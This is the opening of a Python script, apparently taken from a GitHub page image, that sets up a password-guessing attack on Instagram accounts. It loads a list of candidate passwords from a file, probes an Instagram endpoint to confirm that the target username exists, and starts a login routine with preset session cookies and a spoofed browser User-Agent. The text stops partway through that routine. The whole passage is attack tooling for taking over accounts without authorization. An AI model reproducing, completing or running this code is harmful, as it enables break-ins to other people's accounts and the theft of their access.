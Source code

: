 import requests

import json

import time

import os



filename = 'pass.txt'

if os.path.isfile(filename):

	with open(filename) as f:

	    passwords = f.read().splitlines()

	    if (len(passwords) > 0):

	    	print ('%s Passwords loads successfully' % len(passwords))

else:

	print ('Please create passwords file (pass.txt)')

	exit()









def userExists(username):

	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 

	if (r.status_code == 404):

		print ('User not found')

		return False

	elif (r.status_code == 200):

		followdata = json.loads(r.text)

		fUserID = followdata['user']['id']

		return {'username':username,'id':fUserID}





def Login(username,password):

	sess = requests.Session()

	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})

	sess.headers.update({

		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',

